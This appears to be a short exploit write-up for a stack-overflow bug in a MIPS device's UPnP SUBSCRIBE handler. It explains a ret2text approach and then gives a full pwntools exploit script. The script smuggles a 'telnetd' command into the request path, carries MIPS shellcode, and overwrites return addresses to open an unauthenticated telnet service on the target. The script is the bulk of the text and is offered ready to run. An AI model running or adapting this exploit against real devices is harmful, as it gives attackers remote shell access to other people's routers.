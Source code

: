 # Detail_EXP

​	**This is where the vulnerability was triggered**

![image-20220214142158985](./img/image-20220214142158985.png)

​	**So we can overlay the return address of the stack overflow function. At that time, we thought about mips-rop, but the 00 character blocked me, so we thought of arranging shellcode on the stack, but ASLR, so I didn't know the stack address. Finally, I chose the utilization method of ret2text to succeed**

​	**Firstly, I chose 0x422850 as the address of stack overflow hijacking. Since MIPS CPU is a multi-level pipeline, you can see that A0 is set as the parameter of system function later, and the parameters are stored on the stack and can be controlled.**

​	<img src="./img/image-20220214143221323.png" alt="image-20220214143221323" style="zoom:50%;" />

​	 **payload can be constructed now. First, the subscribe request is required to enter the function that can overflow the stack**

```
SUBSCRIBE ....  HTTP/1.0\n
```

​	**How much length is required for normal calculation, and try not to destroy some key variables**

​	Finally, this is my exp, which can open telnetd service

```
from pwn import *
p=remote("192.168.0.110",5000)
request = "SUBSCRIBE /gena.telnetd${IFS}-p${IFS}23;?service=" + "1" + " HTTP/1.0\n"
request += "Host: " + "192.168.1.0:" + "80" + "\n"
request += "Callback: <http://192.168.0.4:34033/ServiceProxy27>\n"
request += "NT: upnp:event\n"
request += "Timeout: Second-1800\n"
request += "Accept-Encoding: gzip, deflate\n"
request += request+"doud"
stg3_SC =''
stg3_SC += "\xf8\xff\xa5\x23\xef\xff\x0c\x24\x27\x30\x80\x01\x4a\x10\x02\x24"
stg3_SC += "\x0c\x09\x09\x01\x62\x69\x08\x3c\x2f\x2f\x08\x35\xec\xff\xa8\xaf"
stg3_SC += "\x73\x68\x08\x3c\x6e\x2f\x08\x35\xf0\xff\xa8\xaf\xff\xff\x07\x28"
stg3_SC += "\xf4\xff\xa7\xaf\xfc\xff\xa7\xaf\xec\xff\xa4\x23\xec\xff\xa8\x23"
stg3_SC += "\xf8\xff\xa8\xaf\xf8\xff\xa5\x23\xec\xff\xbd\x27\xff\xff\x06\x28"
stg3_SC += "\xab\x0f\x02\x24\x0c\x09\x09\x01"
request += request+stg3_SC
request = request.ljust(0x1f00,"a")
request += p32(0x7fff7030)
request = request.ljust(0x1f48-0x14,"a")
request += p32(0x422848)
p.send(request)
p.interactive()
```

